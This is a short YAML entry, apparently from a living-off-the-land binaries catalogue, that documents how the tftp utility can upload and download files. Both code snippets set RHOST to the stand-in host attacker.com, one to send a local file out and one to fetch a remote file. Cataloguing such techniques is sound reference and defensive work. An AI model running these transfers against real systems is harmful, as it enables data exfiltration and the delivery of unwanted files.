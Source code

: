 ```yaml
---
functions:
  upload:
  - description: Send local file to a TFTP server.
    code: |
      RHOST=attacker.com
      tftp $RHOST
      put file_to_send
  download:
  - description: Fetch a remote file from a TFTP server.
    code: |
      RHOST=attacker.com
      tftp $RHOST
      get file_to_get
---
```

